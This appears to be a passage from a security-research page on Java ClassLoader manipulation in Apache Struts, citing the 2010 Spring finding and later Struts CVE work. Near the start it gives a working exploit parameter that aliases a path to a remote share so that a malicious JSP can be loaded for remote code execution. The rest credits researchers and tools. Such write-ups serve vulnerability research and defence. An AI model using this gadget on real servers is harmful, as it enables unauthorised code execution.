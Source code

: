 Another `dirContext` exploit gadget from [github.com/lanjelot/kb/struts](https://github.com/lanjelot/kb/blob/master/struts):

Code execution via aliases:
``` plain
class.classLoader.resources.dirContext.aliases=/blah=//192.168.122.1/share
```

Then exploit by loading an malicious JSP, e.g.
`http://127.0.0.1:8080/struts-mailreader/blah/rce.jsp`.

## Important research

### Meder Kydyraliev: initial 2010 research

Meders Troopers presentation from 2010 is just amazing:

[Meder Kydyraliev: Milking a horse or executing remote code in modern Java frameworks](https://troopers.de/media/filer_public/9b/e4/9be400c4-2d66-48f5-94df-fe23eb06b122/tr11_meder_milking_a_horse.pdf)

His CVE blog post on the initial Spring finding
([o0o.nu: cve-2010-1622](http://blog.o0o.nu/2010/06/cve-2010-1622.html)),
was also really great!

What is funny is that Meders attack on Spring could have been used
against **Apache Struts**, **Stripes framework**.

So in theory the `ClassLoader` issues could have been addressed
years earlier. The techniques and exploitation patterns were out
there, just waiting to be rediscovered.

### Julian Vilas: Help finding more exploit gadgets

Julian's presentation is extremely good:
* Video: [Julian Vilas: Deep inside the Java framework Apache Struts](https://www.youtube.com/watch?v=Q8xSHezCWgc)
* [SlideShare](https://www.slideshare.net/slideshow/deep-inside-the-java-framework-apache-struts/45525705)

Julian Vilas credits `neobytes` for techniques for finding useful
`ClassLoader` gadgets.
(The link to `neobytes` was dead at time of writing)

Julian released that automates search for `Classloader` gadgets, and
preliminary findings:
 [CVE-2014-0094 / CVE-2014-0114 Struts Tester](https://github.com/julianvilas/rooted2k15)
 _Additional materials for RootedCON 2015 Apache Struts talk_
it is is wonderful heap of knowledge.
Tester explores accessible `ClassLoader` properties under several different prominent
runtime environments such as:
* Tomcat 6 / 7 / 8
* Glassfish 4.1
* JBOSS 7.1 / 7.4
* WAS 8.5.5 (developer version)
* Weblogic 10.3 / 12.1
